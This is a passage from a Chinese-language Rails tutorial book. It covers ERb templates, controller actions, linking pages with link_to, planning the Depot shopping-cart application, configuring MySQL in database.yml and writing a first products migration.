Merry Christmas!
```

在包含 `end` 的行上添加一个减号：

```ruby
<% 3.times do -%>
Ho!<br />
<% end -%>
Merry Christmas!
```

就会消除 `Merry Christmas!` 之前的空行。

```html
Ho!<br />
Ho!<br />
Ho!<br />
Merry Christmas!
```

一般来说，是否抑制这些换行符是品味问题，而非必需。然而，你确实会在实践中看到 Rails 代码以这种方式使用减号，因此最好了解它的作用。

在下面的示例中，循环设置一个变量，每次循环执行时该变量都会被插入到文本中。

```ruby
<% 3.downto(1) do |count| -%>
<%= count %>...<br />
<% end -%>
Lift off!
```

这将向浏览器发送以下内容。

```html
3...<br />
2...<br />
1...<br />
Lift off!
```

关于 ERb 还有最后一件事。通常，你要求使用 `<%=..%>` 替换的值包含对 HTML 重要的小于号和与号字符。为防止这些字符弄乱你的页面（并且，正如我们将在第 **23** 章《保护你的 Rails 应用》**第 510 页**所看到的，以避免潜在的安全问题），你需要转义这些字符。

Rails 有一个辅助方法 `h()` 可以做到这一点。大多数情况下，在将值替换到 HTML 页面时，你会需要使用它。

```erb
Email: <%= h("Ann & Bill <frazers@isp.email>") %>
```

在这个例子中，`h()` 方法防止电子邮件地址中的特殊字符弄乱浏览器显示——它们将被转义为 HTML 实体。浏览器看到 `Email: Ann &amp; Bill &lt;frazers@isp.email&gt;`，特殊字符被正确地显示出来。

### 添加时间

我们最初的问题是向应用用户显示时间。我们现在知道了如何让应用显示动态数据。我们需要解决的第二个问题是确定从哪里获取时间。

一种方法是在我们的 `hello.rhtml` 模板中嵌入对 Ruby 的 `Time.now()` 方法的调用。

```html
<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
  <body>
    <h1>Hello from Rails!</h1>
    <p>
      It is now <%= Time.now %>
    </p>
  </body>
</html>
```

这可行。每次我们访问此页面时，用户都会看到当前时间被替换到响应的主体中。对于我们的简单应用来说，这可能已经足够好了。但是，总的来说，我们可能想做些稍微不同的事情。我们将把要显示的时间的确定移到控制器中，留给视图简单的显示任务。我们将更改控制器中的动作方法，将时间值设置到一个名为 `@time` 的实例变量中。

```ruby
class SayController < ApplicationController
  def hello
    @time = Time.now
  end
end
```

在 `.rhtml` 模板中，我们将使用这个实例变量将时间替换到输出中。

```html
<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
  <body>
    <h1>Hello from Rails!</h1>
    <p>
      It is now <%= @time %>
    </p>
  </body>
</html>
```

当我们刷新浏览器窗口时，我们看到时间以 Ruby 的标准格式显示，如图 4.5 所示。请注意，如果你在浏览器中点击刷新，每次页面显示时时间都会更新。看起来我们确实在生成动态内容。


图 4.5: *Hello, World!* 带时间显示

为什么我们要费心在控制器中设置要显示的时间，然后在视图中使用它？好问题。在这个应用中，你可以直接将 `Time.now()` 的调用嵌入模板中，但通过将其放在控制器中，你可以获得一些好处。例如，我们可能希望将来扩展应用以支持许多国家的用户。在这种情况下，我们希望时间显示本地化，既选择适合用户区域设置的格式，也选择适合其时区的时间。这将涉及相当多的应用层代码，将其嵌入视图层可能不合适。通过在控制器中设置要显示的时间，我们使应用更灵活——我们可以在控制器中更改显示格式和时区，而无需更新任何使用该时间对象的视图。时间是*数据*，它应该由控制器提供给视图。当我们引入模型时，我们会看到更多这样的例子。

### 目前为止的故事

让我们简要回顾一下当前应用是如何工作的。

1. 用户导航到我们的应用。在我们的例子中，我们使用本地 URL，例如 [http://localhost:3000/say/hello](http://localhost:3000/say/hello)。

2. Rails 分析 URL。`say` 部分被视为控制器的名称，因此 Rails 创建 Ruby 类 `SayController` 的一个新实例（它在 `app/controllers/say_controller.rb` 中找到该类）。

3. URL 路径的下一部分 `hello` 标识一个动作。Rails 调用控制器中该名称的方法。此动作方法创建一个新的 `Time` 对象来保存当前时间，并将其存储在 `@time` 实例变量中。

#### 视图如何获取时间？

在描述视图和控制器时，我们展示了控制器将要显示的时间设置到一个实例变量中。`.rhtml` 文件使用该实例变量来替换当前时间。但控制器对象的实例数据对该对象是私有的。ERb 如何获取这个私有数据并用于模板中？

答案既简单又巧妙。Rails 进行了一些 Ruby 魔法操作，使得控制器对象的实例变量被注入到模板对象中。因此，视图模板可以像访问自身变量一样访问在控制器中设置的任何实例变量。

有些人会追问：“这些变量究竟是*如何*被设置的？”这些人显然不相信魔法。最好别和他们一起过圣诞节。

4. Rails 查找模板来显示结果。它搜索 `app/views` 目录，查找与控制器同名的子目录（例如），并在该子目录中查找与操作同名的文件（例如 `hello.rhtml`）。

5. Rails 通过 ERb 处理这个模板，执行任何嵌入的 Ruby 代码，并替换由控制器设置的值。

6. 结果被发送回浏览器，Rails 完成对这个请求的处理。

这并非全部——Rails 为你提供了许多机会来覆盖这个基本工作流程（我们很快就会利用这些机会）。就目前而言，我们的故事阐释了*约定优于配置*，这是 Rails 哲学的一个基本部分。通过提供便捷的默认值并应用某些约定，Rails 应用程序通常编写时几乎不需要或完全不需要外部配置——事情会以自然的方式自行组合在一起。

## 4.3 将页面链接在一起

一个只有单个页面的 Web 应用程序是罕见的。让我们看看如何在我们的 *Hello, World!* 应用程序中添加另一个令人惊叹的网页设计示例。

通常，应用程序中的每种页面样式将对应一个单独的视图。在我们的例子中，我们还将使用一个新的操作方法来处理该页面（尽管并非总是如此，正如我们将在本书后面看到的那样）。我们将为这两个操作使用同一个控制器。同样，这并非必须如此，但我们目前没有令人信服的理由去使用一个新的控制器。

我们已经知道如何向 Rails 应用程序添加新的视图和操作。要添加操作，我们在控制器中定义一个新的方法。我们称这个操作为 *goodbye*。我们的控制器现在看起来如下所示。

```ruby
class SayController < ApplicationController
  def hello
    @time = Time.now
  end

  def goodbye
  end
end
```

接下来我们需要在 `app/views/say` 目录中创建一个新的模板。这次它叫做 `goodbye.rhtml`，因为默认情况下模板以关联的操作命名。

```html
<html>
  <head>
    <title>See You Later!</title>
  </head>
  <body>
    <h1>Goodbye!</h1>
    <p>
      It was nice having you here.
    </p>
  </body>
</html>
```

再次启动我们可靠的浏览器，但这次使用 URL [http://localhost:3000/say/goodbye](http://localhost:3000/say/goodbye) 指向我们的新视图。你应该会看到类似下一页图 4.6 的内容。

现在我们需要将这两个屏幕链接起来。我们将在 hello 屏幕上放置一个链接，将我们带到 goodbye 屏幕，反之亦然。在一个真实的应用程序中，我们可能希望将它们做成合适的按钮，但现在我们只使用超链接。

我们已经知道 Rails 使用一个约定将 URL 解析为一个目标控制器和该控制器内的一个操作。因此，一个简单的方法是为我们的链接采用这个 URL 约定。文件 `hello.rhtml` 将包含以下内容。

```html
<html>
  ....
  <p>
    Say <a href="/say/goodbye">GoodBye</a>!
  </p>
</html>
```

而文件 `goodbye.rhtml` 将指向另一个方向。

```html
<html>
  ....
  <p>
    Say <a href="/say/hello">Hello</a>!
  </p>
</html>
```

这种方法当然可行，但它有点脆弱。如果我们把应用程序移动到 Web 服务器上的不同位置，URL 就会失效。它还假设了关于 Rails URL 格式的编码；Rails 的未来版本可能会更改这一点。

幸运的是，这些风险我们不必承担。Rails 附带了一系列可以在视图模板中使用的 *helper 方法*（辅助方法）。在这里，我们将使用辅助方法 `link_to()`，它创建一个指向操作的超链接。[^6] 使用 `link_to()`，`hello.rhtml` 变为：

[^6] `link_to()` 方法的功能远不止于此，但现在让我们慢慢来……

```html
<html>
<head>
    <title>Hello, Rails!</title>
</head>
<body>
    <h1>Hello from Rails!</h1>
    <p>
        It is now <%= @time %>.
    </p>
    <p>
        Time to say
        <%= link_to "GoodBye!", :action => "goodbye" %>
    </p>
</body>
</html>
```

在一个 ERb `<%=...%>` 序列中有一个 `link_to()` 调用。这创建了一个指向将调用 `goodbye()` 操作的 URL 的链接。对 `link_to()` 调用的第一个参数是在超链接中显示的文本，下一个参数告诉 Rails 生成指向 `goodbye` 操作的链接。由于我们没有指定控制器，将使用当前控制器。

让我们稍作停留，思考一下我们是如何生成链接的。我们写了：

`link_to "GoodBye!", :action => "goodbye"`

首先，`link_to` 是一个方法调用。（在 Rails 中，我们称这些使模板编写更容易的方法为 *helpers*（辅助方法）。）如果你来自 Java 这样的语言，你可能会惊讶于 Ruby 不坚持在方法参数周围加括号。如果你愿意，你总是可以添加它们。

`:action` 部分是一个 Ruby 符号（Symbol）。你可以将冒号理解为 *名为……的那个东西*，所以 `:action` 意为 *名为 action 的那个东西*。`=> "goodbye"` 将字符串 `goodbye` 与名称 `action` 关联起来。实际上，这给了我们方法的关键字参数。Rails 大量使用了这个功能——每当一个方法接受多个参数，而其中一些参数是可选的，你就可以使用这个关键字参数功能来为这些参数赋值。

[^7] 符号（Symbol）可能是人们初次接触 Ruby 时，比任何其他语言特性都更容易引起困惑的东西。我们尝试过许多不同的解释——没有一种解释适合所有人。现在，你可以将 Ruby 符号想象成一个常量字符串，但它无法像字符串那样完成所有事情。它是名牌，而不是佩戴名牌的人。

好的。回到应用程序。如果我们将浏览器指向我们的 hello 页面，它现在将包含一个指向 goodbye 页面的链接，如下一页的**图 4.7**所示。

我们可以在 `goodbye.rhtml` 中进行相应的更改，将其链接回初始的 hello 页面。

```html
<html>
  <head>
    <title>See You Later!</title>
  </head>
  <body>
    <h1>Goodbye!</h1>
    <p>
      It was nice having you here.
    </p>
    <p>
      Say <%= link_to "Hello", :action => "hello" %> again.
    </p>
  </body>
</html>
```

## 4.4 我们刚才做了什么

在本章中，我们构建了一个玩具应用程序。这样做向我们展示了：

- 如何创建一个新的 Rails 应用程序以及如何在该应用程序中创建一个新的控制器；
- Rails 如何将传入的请求映射到对你代码的调用；
- 如何在控制器中创建动态内容并通过视图模板显示它；以及
- 如何将页面链接在一起。

这是一个很好的基础。现在让我们开始构建真实的应用程序。

## 清理工作

也许你一直在跟着做，编写本章中的代码。如果是这样，很可能应用程序仍在你的计算机上运行。当我们大约十页之后开始编写下一个应用程序的代码时，第一次运行它会遇到冲突，因为它也会尝试使用你计算机的 3000 端口与浏览器通信。现在是停止当前应用程序的好时机，在启动 WEBrick 的窗口中按 `Control-C` 即可。

# 第二部分：构建应用程序

> 充电！
>
> 威玛·弗林石和贝蒂·鲁布尔

## 第五章：Depot 应用程序

我们可以整天捣鼓简单的测试应用程序，但这无助于我们支付账单。所以，让我们投入更有挑战性的事情。让我们创建一个名为 *Depot* 的基于网络的购物车应用程序。


世界真的需要另一个购物车应用程序吗？不需要，但这并没有阻止成百上千的开发者编写一个。我们为什么要与众不同？

更严肃地说，事实证明，我们的购物车将阐明 Rails 开发的许多特性。我们将看到如何创建简单的维护页面、连接数据库表、处理会话以及创建表单。在接下来的八章中，我们还将涉及单元测试、安全性和页面布局等外围主题。

### 5.1 增量式开发

我们将增量式地开发这个应用程序。我们不会在开始编码之前试图指定一切。相反，我们将制定足够的规范让我们可以开始，然后立即创建一些功能。我们会尝试一些东西，收集反馈，然后继续进行另一轮迷你设计和开发。

这种编码风格并非总是适用。它需要与应用程序用户密切合作，因为我们希望边做边收集反馈。我们可能会犯错误，或者客户可能发现他们要求的东西实际上并不是他们真正想要的。无论原因是什么——我们越早发现错误，修复它的成本就越低。总而言之，这种开发方式在过程中会有很多变化。

正因为如此，我们需要使用一套不会因为我们改变主意而惩罚我们的工具。如果我们决定需要向数据库表添加新列，或者更改页面之间的导航，我们需要能够直接修改，而不需要一堆编码或配置的麻烦。正如你将看到的，Ruby on Rails 在应对变化方面表现出色——它是一个理想的敏捷编程环境。

无论如何，让我们继续应用吧。

### 5.2 Depot 是做什么的

让我们先记下 Depot 应用程序的概要规范。我们将查看高级用例，并勾勒出网页的流程。我们还将尝试确定应用程序需要什么数据（并承认我们最初的猜测很可能是错误的）。

#### 用例

“用例”简单来说就是某个实体如何使用系统的陈述。顾问们在想多收费时就会发明这类术语——这是商业生活的扭曲，花哨的词汇总是比朴实的更贵，即使朴实的更有价值。

Depot 的用例很简单（有些人会说简单得可悲）。我们首先确定两个不同的角色或参与者：“买家”和“卖家”。

买家使用 Depot 浏览我们要出售的产品，选择一些进行购买，并提供创建订单所需的信息。

卖家使用 Depot 维护待售产品列表，确定待发货的订单，并将订单标记为已发货。（卖家也使用 Depot 赚大钱并退休到热带岛屿，但那是另一本书的主题。）

目前，这就是我们需要的所有细节。我们可以深入细节去讨论“维护产品意味着什么”和“什么构成一个准备发货的订单”，但何必呢？如果有不明显的细节，当我们向客户展示工作的连续迭代时，我们很快就会发现它们。

说到获得反馈，我们现在就不要忘了获取一些——让我们通过询问用户来确保我们最初的（无疑是粗略的）用例是准确的。假设用例通过审查，让我们从各个用户的角度来制定应用程序的工作方式。

#### 页面流程

戴夫说：我总是喜欢了解应用程序的主要页面，并大致理解用户如何在它们之间导航。在开发的早期阶段，这些页面流程可能不完整，但它们仍然帮助我专注于需要做的事情，并了解事情的顺序。

有些人喜欢用 Photoshop、Word 或（惊恐地）HTML 来制作网络应用程序页面流程的草图。我喜欢用铅笔和纸。它更快，而且客户也可以参与进来，拿起铅笔直接在纸上涂改。



图 5.1 显示了我买家流程的第一次草图。它非常传统。买家看到一个目录页面，从中一次选择一件产品。每件选中的产品都被添加到购物车中，并且每次选择后都会显示购物车。买家可以使用目录页面继续购物，也可以结账并购买购物车中的物品。在结账过程中，我们捕获联系和支付详情，然后显示收据页面。我们还不知道将如何处理支付，所以这些细节在流程中相当模糊。

卖家流程如图 5.2 所示，也相当简单。登录后，卖家看到一个菜单，允许她创建或查看产品，或发货现有订单。查看产品后，卖家可以选择编辑产品信息或完全删除产品。



发货选项非常简单。它显示每个尚未发货的订单，每页一个订单。卖家可以选择跳到下一个订单，或者使用页面上的相应信息来发货订单。

发货功能在现实世界中显然不会长久，但发货也是现实常常比你想象的更奇怪的领域之一。如果预先规定得太详细，我们很可能会搞错。现在，让我们保持现状，相信我们可以随着用户使用我们应用程序的经验积累而改变它。

#### 数据

在开始第一轮编码之前，我们需要考虑的最后一件事是我们将要处理的数据。

请注意，我们没有使用诸如 `schema` 或 `classes` 之类的词。我们也没有讨论数据库、表、键等。我们只是在讨论数据。在开发的这个阶段，我们甚至不知道是否会使用数据库——有时平面文件比数据库表更好。

根据用例和流程，我们似乎需要处理图 5.3 所示的数据。同样，铅笔和纸似乎比一些花哨的工具容易得多，但请使用任何对你有效的方法。



> 图 5.3：应用程序数据的初步猜测

处理数据图表提出了一些问题。当用户购买东西时，我们需要一个地方来保存产品列表，所以我添加了一个购物车。但除了作为保存该产品列表的临时场所外，购物车似乎有点像幽灵——我找不到任何有意义的东西来存储它。为了反映这种不确定性，我在图表中的购物车框内放了一个问号。我假设这种不确定性将在我们实现 Depot 时得到解决。

高级数据的提出也引发了一个问题，即哪些信息应该放入订单中。同样，我选择现在将其保持相当开放——当我们开始向客户展示我们的早期迭代时，我们将进一步完善它。

最后，你可能注意到我在行项目数据中重复了产品的价格。在这里，我略微违反了“最初，保持简单”的规则，但这是基于经验的违规。如果产品的价格发生变化，该价格变化不应反映在当前未结订单的行项目价格中，因此每个行项目都需要反映订单创建时的产品价格。

同样，在这一点上，我会与我的客户再次确认，确保我们仍在正确的轨道上。（希望在我画这三个图表时，我的客户就和我一起坐在房间里。）

### 5.3 开始编码

那么，在与客户坐下来进行一些初步分析之后，我们准备好开始使用计算机进行开发了！我们将基于我们当前的理解进行工作，但很可能我们会很快抛弃它们——随着我们收集反馈，它们会变得过时。有趣的是，这就是我们为什么没有在它们上面花太多时间——如果你没有花很长时间创建它，就更容易抛弃它。

在接下来的章节中，我们将开始基于我们当前的理解开发应用程序。然而，在翻到下一页之前，我们必须回答最后一个问题。我们应该先做什么？

我喜欢与客户合作，以便我们能共同商定优先事项。在这种情况下，我会向她指出，在系统中定义一些基本产品之前，很难开发其他任何东西，所以我建议花几个小时让产品维护功能的初始版本运行起来。当然，她会同意。

在本章中，我们将学习：

- 创建新应用
- 配置数据库
- 创建模型和控制器
- 运行数据库迁移
- 静态与动态脚手架
- 验证与错误报告
- 视图和辅助方法

## 第六章

## 任务 A：产品维护

我们的第一个开发任务是创建一个 Web 界面，用于维护产品信息——创建新产品、编辑现有产品、删除不需要的产品等。我们将通过小迭代周期来开发这个应用，这里的“小”指的是“以分钟计”。让我们开始吧……

### 6.1 迭代 A1：启动运行

或许令人惊讶的是，我们应该能在极短时间内完成首次迭代。首先创建一个新的 Rails 应用——这是我们所有工作的起点。接着创建数据库来存储信息（实际上要创建三个数据库）。基础工作完成后，我们将：

- 配置 Rails 应用指向我们的数据库
- 创建存储产品信息的表
- 让 Rails 自动生成产品维护应用的初始版本

### 创建 Rails 应用

回顾第 32 页，我们已了解如何创建新的 Rails 应用。在命令行中，输入 `rails` 后接项目名称。本例中项目名为 `depot`，因此输入：

```
work> rails depot
```

我们将看到一系列输出滚动显示。完成后会发现新建了 `depot` 目录——这便是我们工作的场所。

```
work> cd depot
depot> ls -p
README          components/      doc/            public/         tmp/
Rakefile        config/          lib/            script/         vendor/
app/            db/              log/            test/
```

### 创建数据库

本例将使用开源的 MySQL 数据库服务器（如果跟随代码实践你也需要它）。这里使用的是 MySQL 5 版本。若使用其他数据库服务器，创建数据库和授权的命令会有所不同。

我们还需简要讨论数据库用户和密码。初始安装 MySQL 时会自带 `root` 用户。本书中将在开发和测试模式下使用 `root` 用户访问数据库。如果在专用机器上进行开发测试，这样完全可行。但在生产环境或需要他人访问数据库时，务必创建专用用户账户和密码以防止数据泄露。请务必记住：**部署前务必修改生产数据库的用户名和密码**。详情请参阅数据库文档。

数据库名称怎么定？可以取任何名字（Walter 是个不错的名字）。但 Rails 有其命名惯例。既然应用名为“depot”，我们便将开发数据库命名为 `depot_development`。

我们将使用 `mysqladmin` 命令行客户端创建数据库，但如果你更熟悉 `phpmyadmin` 或 CocoaMySQL 等工具，也可以使用它们。

```
depot> mysqladmin -u root create depot_development
```

现在你可以体验“顺势而为”的好处了。¹ 如果你使用 MySQL 并按建议命名创建了数据库，现在可以直接跳转至第 63 页的 6.1 节“测试配置”。

> ¹ 或者用 Rails 开发者常说的（令人厌烦的）术语：“约定优于配置”。

### 配置应用

许多简单的脚本语言 Web 应用中，数据库连接信息直接嵌入代码——你可能看到某个 `connect()` 方法的调用，其中包含主机名、数据库名、用户名和密码。这很危险，因为密码信息存放在 Web 可访问目录的文件中。小小的服务器配置错误就可能暴露你的密码。

将连接信息嵌入代码也缺乏灵活性。可能这一分钟你还在用开发数据库编写代码，下一分钟就需要针对测试数据库运行相同代码，最终还要部署到生产环境。每次切换目标数据库时，都必须编辑连接代码。编程界有条规律：只有在将应用切换到生产环境时，你才会输错密码。

聪明的开发者会将连接信息从代码中剥离。有时会使用某种仓库来存储这些信息（Java 开发者常用 JNDI 查找连接参数）。这对我们要开发的普通 Web 应用来说过于复杂，因此 Rails 采用简单的平面文件方式。你可以在 `config/database.yml`² 中找到它。

如图 6.1 所示（下一页），`database.yml` 包含数据库连接信息，实际包含三个部分，分别对应开发、测试和生产数据库。如果你“顺势而为”使用 MySQL 且以 `root` 作为用户名，你的 `database.yml` 文件可能已可直接使用——无需任何修改。但若你决定采用不同配置，则可能需要编辑此文件。只需用喜欢的文本编辑器打开，修改需要更改的字段。列表中的数字对应图中注释的编号。

1. `adapter` 部分告知 Rails 使用的数据库类型（称为“适配器”是因为 Rails 利用此信息适配特定数据库）。本例使用 MySQL，因此适配器名为 `mysql`。完整的适配器类型列表见第 260 页图 16.2。若使用 MySQL 以外的数据库，需查阅此表，因为不同数据库类型

> ² 文件名中的 `.yml` 代表 YAML（YAML 非标记语言），这是一种在平面文件中存储结构化信息的简易方式（且非 XML）。最新 Ruby 版本已内置 YAML 支持。

在 `database.yml` 中有不同的参数集。以下参数适用于 MySQL。

2. `database` 参数指定数据库名称。（记住，我们在第 60 页通过 `mysqladmin` 创建了 `depot_development` 数据库。）

3. `username` 和 `password` 参数允许应用登录数据库。我们使用 `root` 用户且无密码。如果数据库配置不同，需修改这些字段。

若将用户名留空，MySQL 可能使用当前登录的用户名连接数据库。这很方便，意味着不同开发者连接时会使用各自的用户名。但有报告显示，在 MySQL、数据库驱动和操作系统的某些组合下，留空这些字段会导致 Rails 尝试以 `root` 用户连接。若出现类似 `Access denied for user 'root'@'localhost.localdomain'` 的错误，请在这两个字段中明确填写用户名。

另外，MySQL 的善良开发者们在 4.1 版本中更改了密码存储方式。如果在新版本数据库上使用旧库，或用新代码连接旧数据库，可能会遇到连接问题。最佳解决方案是升级到较新版本的 MySQL 和 MySQL Ruby 库。

`host` 参数告知 Rails 数据库运行在哪台机器上。大多数开发者在本地运行 MySQL，因此默认的 `localhost` 即可。

请记住——如果你刚入门且愿意使用 Rails 默认设置，无需担心所有这些配置细节。

```yaml
# MySQL (default setup). Versions 4.1 and 5.0 are recommended.
#
# Install the MySQL driver:
# gem install mysql
# On MacOS X:
# gem install mysql -- --include=/usr/local/lib
# On Windows:
# There is no gem for Windows. Install mysql.so from RubyForApache.
# http://rubyforge.org/projects/rubyforapache
#
# And be sure to use new-style password hashing:
# http://dev.mysql.com/doc/refman/5.0/en/old-client.html
development:
  adapter: mysql
  database: ttt_development
  username: root
  password:
  host: localhost
```

图 6.1：配置 `database.yml` 文件

### 选择其他数据库

通过修改 `config` 目录下 `database.yml` 文件中的值来指定 Rails 使用的数据库适配器。显然，你可以先创建应用，再编辑此文件使用正确的适配器。

但如果你知道将使用 MySQL 以外的数据库，可在创建应用时直接告知 Rails 以节省精力：

```
work> rails depot --database=sqlite3
```

命令 `rails --help` 会显示可用选项列表。请注意需要为所选数据库安装相应的 Ruby 库。

### 测试配置

在进一步操作前，我们可能应该测试当前配置——可以检查 Rails 能否连接数据库，以及是否拥有创建表的所需权限。在应用顶层目录下，于命令行输入以下神奇指令：

```
depot> rake db:migrate
```

将出现两种情况：要么返回单行输出（类似 `(in /Users/dave/work/depot)`），要么出现某种错误。错误意味着 Rails 无法处理你的数据库。若看到错误，可尝试以下解决方法。

- 检查 `database.yml` 文件中 `development:` 部分给出的数据库名称，应与通过 `mysqladmin` 创建的数据库名称一致。
- 检查 `database.yml` 中的用户名和密码是否与你在第 60 页创建的凭据一致。
- 检查数据库服务器是否正在运行。
- 检查你是否能从命令行连接到它。如果使用 MySQL，请运行以下命令：

```
depot> mysql -u root depot_development
mysql>
```

如果你能从命令行连接，能否创建一个临时表？（这用于测试数据库用户是否对数据库拥有足够的访问权限。）

```
mysql> create table dummy(i int);
mysql> drop table dummy;
```

如果你能从命令行创建表，但 `rake db:migrate` 失败，请仔细检查 `database.yml` 文件。如果文件中存在 `socket:` 指令，尝试将其注释掉（在每个指令前加上井号 `#`）。

如果你在 OS X 10.4 上跳过了安装说明，可能会遇到问题。似乎 Tiger 破坏了 Ruby 的标准 MySQL 库。如果你看到错误信息 `Before updating scaffolding from new DB schema, try creating a table for your model (Product)`，很可能是因为 Ruby（以及 Rails）无法连接到数据库。要修复 Apple 的不良安装，你需要重新安装 Ruby 的 MySQL 库，这意味着运行第 ?? 页的脚本来修复 Ruby 安装，然后重新安装 `mysql` gem。

一些读者还报告了错误信息 `Client does not support authentication protocol requested by server; consider upgrading MySQL client`。这种已安装的 MySQL 版本与用于访问它的库之间的不兼容性，可以通过遵循 http://dev.mysql.com/doc/mysql/en/old-client.html 上的说明并执行类似 `set password for 'some_user'@'some_host' = OLD_PASSWORD('newpwd');` 的 MySQL 命令来解决。

最后，`database.yml` 文件的格式可能存在问题。读取此文件的 YAML 库对制表符异常敏感。如果你的文件包含制表符，你会遇到问题。（而你以为你选择了 Ruby 而不是 Python，是因为你不喜欢 Python 对空格的严格要求，是吧？）

如果这一切听起来很可怕，别担心。实际上，数据库连接在大多数情况下都能顺利工作。一旦 Rails 与数据库连通，你就无需再为此担心。

### 创建产品模型和表


回顾**5.3**图（**第 57 页**），我们勾勒了`products`表的基本内容。现在让我们将其变为现实。为此，我们需要两样东西：一个数据库表，以及一个能让应用程序使用该表的 Rails *模型*。

此时，我们需要做一个决定。如何指定数据库表的结构？我们是应该使用底层的 DDL 语句（`create table`及其同类命令）？还是存在一种更高级的方式，一种让模式在随时间演变时更易更改的方式？当然有！事实上，有多种选择。

许多人喜欢使用交互式工具来创建和维护模式。例如，phpMyAdmin 工具允许你通过 Web 表单维护 MySQL 数据库。乍一看，这种数据库维护方式很有吸引力——毕竟，有什么比在表单中输入一些内容然后让工具完成所有工作更好的呢？然而，这种便利是有代价的：你所做的更改历史会丢失，并且所有的更改实际上都是不可逆的。这也使得你部署应用程序变得困难：你必须记住对开发环境和生产环境的数据库进行相同的更改（而且我们都知道，如果你要操作失误，那很可能是在你编辑生产环境模式的时候）。

幸运的是，Rails 提供了一种折中方案。使用 Rails，你可以定义*数据库迁移*。每个迁移代表了你希望对数据库进行的一项更改，以与数据库无关的方式在源文件中表达。这些更改既可以更新数据库模式，也可以更新数据库表中的数据。你应用这些迁移来更新你的数据库，也可以撤销它们来回滚数据库。我们在**第 ?? 页**开始有一整章关于迁移的内容，所以现在，我们先使用它们，不做过多解释。

我们该如何创建这些迁移呢？嗯，仔细想想，我们通常希望在创建 Rails 模型的同时创建一个数据库表。因此 Rails 有一个简洁的快捷方式。当你使用生成器创建新模型时，Rails 会自动创建一个迁移，你可以用它来创建相应的表。（正如我们稍后将看到的，Rails 也让仅创建迁移变得简单。）

那么，让我们开始为`products`表创建模型和迁移。注意，在接下来的命令行中，我们使用了单数形式`product`。在 Rails 中，一个模型会自动映射到一个数据库表，该表的名称是模型类名的复数形式。在我们的例子中，我们请求了一个名为`Product`的模型，所以 Rails 将其关联到名为`products`的表。（它如何找到该表？我们在`config/database.yml`中设置*development*条目时告诉了它。）

```
depot> ruby script/generate model Product
    exists  app/models/
    exists  test/unit/
    exists  test/fixtures/
  create  app/models/product.rb
  create  test/unit/product_test.rb
  create  test/fixtures/products.yml
  create  db/migrate
  create  db/migrate/001_create_products.rb
```

同样，生成器创建了一系列文件。我们感兴趣的是模型本身（`product.rb`）和迁移文件（`001_create_products.rb`）。让我们先看看迁移文件。

迁移有一个描述性名称（`create_products`），前缀是序列号（`001`），文件扩展名为`.rb`（因为它是一个 Ruby 程序）。

下一步是向此文件中添加在数据库中创建表的代码。打开`db/migrate`目录中的文件`001_create_products.rb`，你会看到两个（空的）Ruby 方法定义：

```
class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      # t.column :name, :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

`up()`方法用于将迁移应用到数据库。定义我们表的代码就放在这里。`down()`方法撤销`up()`方法的效果：当需要将数据库回滚到之前的版本时运行。你可以看到 Rails 已经在这两个方法中添加了创建和删除表的代码。我们现在的工作是告诉它我们想要的列。

编辑文件，使其如下所示。

```
class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      t.column :title,      :string
      t.column :description, :text
      t.column :image_url,  :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

